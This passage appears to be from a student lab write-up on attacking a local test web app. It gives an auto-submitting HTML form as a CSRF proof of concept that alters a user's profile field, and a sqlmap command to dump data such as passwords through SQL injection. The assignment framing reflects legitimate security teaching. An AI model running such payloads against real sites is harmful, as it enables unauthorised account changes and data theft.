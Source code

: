 ```html
<!DOCTYPE html>
<body>
    <form id="form" action="http://127.0.0.1:5000/profile/test" method="POST">
        <input type="hidden" name="education" value="CSRF">
    </form>
    <script>
        document.getElementById('form').submit();
    </script>
</body>
</html>
```

4. **Execute**

   - Open the HTML file in your browser
   - The form will be sent on page load and redirect to the profile section

5. **Verify**
   - Check the profile page of the user
   - Confirm that the field "education" has been changed to "CSRF"

### **3.3. SQL injection**

- **Description:** Retrieve sensitive data such as passwords by using sql injection
- **Tools Used:**
  - sqlmap
- **Exploitation Steps:**

1. **Open terminal**

   - Open an new terminal instance

2. **Use sqlmap to perform sql injection**
   - Enter the following command in your terminal and input "yes" for any prompts

```bash
sqlmap -u http://127.0.0.1:5000/stream/test -a
```

![img-description](/assets/img/DAT250-Assignment-1/image4.png)

